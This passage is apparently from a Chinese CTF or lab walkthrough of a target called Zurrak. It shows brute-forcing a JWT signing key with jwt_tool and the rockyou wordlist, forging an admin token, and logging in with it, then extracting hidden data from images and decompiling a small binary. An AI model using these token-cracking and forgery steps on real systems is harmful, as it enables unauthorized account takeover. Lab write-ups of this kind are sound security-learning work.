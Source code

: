 还差一个密钥，爆破一下：

```bash
python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJlbWFpbCI6ImludGVybmFsQHp1cnJhay5odGIiLCJpc0FkbWluIjpmYWxzZSwiaWF0IjoxMzU2OTk5NTI0LCJuYmYiOjEzNTcwMDAwMDB9.ufkwBsusc4IEYCCRszCbcSEv6irCtUSx-Uq08OThxso -C -d /usr/share/wordlists/rockyou.txt
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404071800973.png" alt="image-20240407145257365" style="zoom:50%;" />

尝试伪造一下请求：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404071800974.png" alt="image-20240407145428692" style="zoom:50%;" />

```text
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJlbWFpbCI6ImludGVybmFsQHp1cnJhay5odGIiLCJpc0FkbWluIjp0cnVlLCJpYXQiOjEzNTY5OTk1MjQsIm5iZiI6MTM1NzAwMDAwMH0.gBpFlpNfVUBlv9HuqXqVzRtaHR265PFagumX_OAKCMY
```

尝试使用这个token进行登录：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404071800975.png" alt="image-20240407145726033" style="zoom:50%;" />

### 图片隐写

中间提示存在隐写了，尝试提取一下：

```apl
http://172.20.10.3/zurrakhorse.jpg
http://172.20.10.3/zurraksnake.jpg
http://172.20.10.3/zurrakhearts.jpg
```

下载一下，发现都藏了东西，爆破一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404071800976.png" alt="image-20240407150438397" style="zoom: 50%;" />

放到本地来，反编译一下：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v4; // [rsp+20h] [rbp-60h]
  __int64 v5; // [rsp+28h] [rbp-58h]
  __int64 v6; // [rsp+30h] [rbp-50h]
  __int64 v7; // [rsp+38h] [rbp-48h]
  __int64 v8; // [rsp+40h] [rbp-40h]
  __int64 v9; // [rsp+48h] [rbp-38h]
  char v10; // [rsp+50h] [rbp-30h]

  _main(*(_QWORD *)&argc, argv, envp);
  LODWORD(v9) = 115;
  LODWORD(v8) = 116;
  LODWORD(v7) = 97;
  LODWORD(v6) = 99;
  LODWORD(v5) = 101;
  LODWORD(v4) = 118;
  c(&v10, 105i64, 108i64, 111i64, v4, v5, v6, v7, v8, v9);
  printf("classified\n");
  return 0;
}
```
